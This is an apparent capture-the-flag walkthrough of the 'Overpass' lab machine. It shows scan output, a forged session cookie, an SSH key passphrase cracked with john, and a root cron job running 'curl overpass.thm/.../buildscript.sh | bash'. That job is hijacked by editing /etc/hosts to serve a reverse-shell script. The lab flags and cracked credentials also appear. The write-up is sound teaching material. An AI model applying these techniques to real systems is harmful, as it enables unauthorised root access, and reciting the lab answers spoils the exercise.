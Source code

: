 # Overpass

<img src="overpass.png" width=200 height=200 alt="overpass">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
```

well first enumeration got us the minimum

Meaning we have to focus on the websie itself

let's focus on their about us page first

```
Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant
```

potential usernames? not sure...

Shall we bruteforce the admin page we found? is it anything in their source code?

Lets focus on admin page then..it's an easy room it can't be something too complicated

Oh the javascript login function

```
async function login() {
const usernameBox = document.querySelector("#username");
const passwordBox = document.querySelector("#password");
const loginStatus = document.querySelector("#loginStatus");
loginStatus.textContent = ""
const creds = { username: usernameBox.value, password: passwordBox.value }
const response = await postData("/api/login", creds)
const statusOrCookie = await response.text()
if (statusOrCookie === "Incorrect credentials") {
loginStatus.textContent = "Incorrect Credentials"
passwordBox.value=""
} else {
Cookies.set("SessionToken",statusOrCookie)
window.location = "/admin"
}
}
```

On successful login a SessionToken cookie is created

lets craft it ourselves..as long as the cookie is named SessionToken we pass

```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
```

haha poor james...ok lets crack his key with john and rockyou

```
james13 (james_id_rsa)

james:james13
```

If james forgets that passphrase too he is a moron

```
$chmod 600 james_id_rsa

$ssh James@10.10.72.200 -i james_id_rsa
Enter passphrase for key 'james_id_rsa':
Connection closed by 10.10.72.200 port 22
```

ugh...what is this again???? yeah it was serverfault error

I just had to wait (or restart the macine) and now it works

```
james@overpass-prod:~$ cat user.txt
thm{james_got_a_new_job}
```

got user FLAG

another file there

```
james@overpass-prod:~$ cat todo.txt
To Do:

> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
> Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
> They're not updating on the website
```

lets privEsc before we got problems again

## Prviledge Escalation

`sudo -l` won't work this time beacause we dont have james sudo password

He say he used overpass to store it

it seems like we need to use the overpass build script

I already downloaded it in soure files earlier

```
james@overpass-prod:~$ find / -name 'overpass' 2> /dev/null
/usr/bin/overpass
```

ok they got overpass installed

```
overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System saydrawnlyingpicture
```

we retrieve system password

```
sudo -l
[sudo] password for james:
Sorry, user james may not run sudo on overpass-prod.
```

lmao that was a big waste of my time

well lets uplaod linPEAS with a python server and get real informations

```
╔══════════╣ Cron jobs
...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

- - - - - root curl overpass.thm/downloads/src/buildscript.sh | bash

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
/home/james
/run/lock
/run/screen
/run/screen/S-james
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/tmp
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.font-unix
#)You_can_write_even_more_files_inside_last_directory
```

Basically a cron runs every 1 minutes as root and do a curl to `overpass.thm`

if its not in dns its a vhost and the `/etc/hosts` is writable

Amazing...we use nano to point overpass.thm to our ip address

```
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.8.226.203 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

That means every 1 min the cron gonna run at /myserverfolder/downloads/src/buildscript.sh

We just have to make that directory structure in a www folder and make MY buildscript.sh spawn a reverse shell

we catch that connection in another netcat listenner

1 minute after we are root

```
root@overpass-prod:~# cat root.txt
cat root.txt
thm{control_over_the_host_server}
```

For an easy room that privilege escalation was...tedious...but so great

It was so cool making the run from or own server
